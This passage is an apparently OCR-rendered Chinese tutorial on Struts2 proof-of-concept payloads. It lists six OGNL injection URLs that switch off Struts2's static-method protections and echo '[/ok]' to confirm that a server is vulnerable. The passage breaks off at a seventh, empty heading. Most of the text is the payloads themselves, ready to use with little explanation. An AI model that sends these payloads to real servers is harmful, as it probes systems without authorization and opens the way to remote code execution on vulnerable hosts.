 #### **解密 Struts2 的“神秘”的 POC：**

在 S2-016 出来之后 Struts2 以前的 POC 拿着也没什么用了，因为 S2-016 的威力已经大到让百度、企鹅、京东叫唤了。挑几个简单的具有代表性的讲下。在连续不断的看了这么多坑爹的概念以后不妨见识一下 Struts2 的常用 POC。

**回显 POC**(快速检测是否存在（有的 s2 版本无法输出）,看见输出[/ok]就表示存在)：

POC1:

```
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman.getWriter().println(%22[/ok]%22)')(d))&(i99)(('\43xman.getWriter().close()')(d)) 
```

POC2（类型转换漏洞需要把 POC 加在整型参数上）:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22))%2b' 
```

POC3（需要注意这里也必须是加载一个 String(字符串类型)的参数后面，使用的时候把 URL 里面的两个 foo 替换成目标参数（注意 POC 里面还有个 foo））:

```
http://127.0.0.1/Struts2/hello.action?foo=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=%20new%20java.lang.Boolean(false),%23_memberAccess[%22allowStaticMethodAccess%22]=new%20java.lang.Boolean(true),@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22))&z[(foo)('meh')]=true 
```

POC4:

```
http://127.0.0.1/Struts2/hello.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d=+new+java.lang.Boolean(false),%23_memberAccess%5b%22allowStaticMethodAccess%22%5d=true,%23s3cur1ty=%40org.apache.struts2.ServletActionContext%40getResponse().getWriter(),%23s3cur1ty.println(%22[/ok]%22),%23s3cur1ty.close())(aa)&x[(class.classLoader.jarPath)('aa')] 
```

POC5:

```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23response=@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22),%23response.close()} 
```

POC6:

```
http://127.0.0.1/Struts2/$%7B%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23resp=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23resp.println(%22[ok]%22),%23resp.close()%7D.action 
```

POC7:
